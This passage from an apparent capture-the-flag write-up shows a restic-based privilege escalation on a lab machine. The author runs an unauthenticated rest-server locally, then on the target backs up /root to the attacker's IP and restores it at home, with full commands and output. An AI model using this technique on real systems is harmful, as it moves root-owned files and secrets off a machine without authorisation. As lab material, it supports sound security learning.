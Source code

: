 We can find the hacker tricks from GTOBins
![](images/Pasted%20image%2020250712023006.png)
Firstly, we need to start the service in our local machine 
```
┌──(wither㉿localhost)-[/opt/rest-server]
└─$ ./rest-server --path /tmp/restic-data --listen :12345 --no-auth
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345
```
Then we run the commands in the repo command line
```
// init repo
-r rest:http://10.10.14.16:12345/myrepo init

// backup /root to remote
 -r rest:http://10.10.14.16:12345/myrepo backup /root
```

Then come to our local machine
```
Check out the local sunshine
┌──(wither㉿localhost)-[/tmp/restic-data]
└─$ restic -r /tmp/restic-data/myrepo snapshots
enter password for repository: 
repository cbcd124c opened (version 2, compression level auto)
found 2 old cache directories in /home/wither/.cache/restic, run `restic cache --cleanup` to remove them
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
ec3008a9  2025-07-11 16:54:54  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
                                                                                                                                                                                

progress and success
┌──(wither㉿localhost)-[/tmp/restic-data]
└─$ restic -r /tmp/restic-data/myrepo restore ec3008a9 --target ./restore
enter password for repository: 
repository cbcd124c opened (version 2, compression level auto)
found 2 old cache directories in /home/wither/.cache/restic, run `restic cache --cleanup` to remove them
[0:00] 100.00%  1 / 1 index files loaded
restoring snapshot ec3008a9 of [/root] at 2025-07-11 06:54:54.1608143 +0000 UTC by root@artificial to ./restore
Summary: Restored 80 files/dirs (4.299 MiB) in 0:00

```

